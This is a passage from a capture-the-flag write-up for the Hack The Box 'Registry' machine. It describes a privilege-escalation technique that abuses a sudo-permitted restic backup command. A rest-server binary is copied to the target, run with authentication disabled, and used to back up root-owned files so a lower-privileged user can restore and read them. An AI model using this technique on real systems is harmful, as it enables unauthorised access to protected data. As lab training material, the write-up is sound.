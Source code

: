 To be able to abuse this, I needed to master the usage of restic, and find a way to consider a usage that will allow me to escalate, rapid protyping on local and eating the documentation, made me realise that there is roughly 3 phases:

### Initiating a backup instance on a folder or a remote server

```bash
restic init -r instance
```

### Using that backup instance to store data
```bash
restic backup -r instance WHAT
```
### And finaly restore the backuped data

```bash
restic restore Snapshot_id -r instance  --target WHERE
```

The sudoed command is the backup one, so we are able to backup any file we want on the host as root, and be able to restore it as a regular user, potentially able to read the whole system.
To be able to change from one user to another when we do backups, its better to use a remote server as a backup instance instead of a folder.



# Exploitation

## Copy restic server to registry.htb

```bash
scp -i id_rsa /root/Registry/www-data/rest-server/bi/bin bolt@registry.htb:/tmp/.aa
```

## Start the server as user
```bash
bolt@bolt:/tmp/.aa$ ls
bin
bolt@bolt:/tmp/.aa$ chmod +x bin
bolt@bolt:/tmp/.aa$ ./bin --no-auth --path .
Data directory: .
Authentication disabled
Private repositories disabled
Starting server on :8000

```
## Init a repo as www-data on the remote server
```bash
www-data@bolt:~/html$ ls
backup.php  bolt  index.html  index.nginx-debian.html  install
www-data@bolt:~/html$ restic init -r rest:http://registry.htb:8000
enter password for new repository: 
enter password again: 
created restic repository 8feaba0e5e at rest:http://registry.htb:8000

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.

```
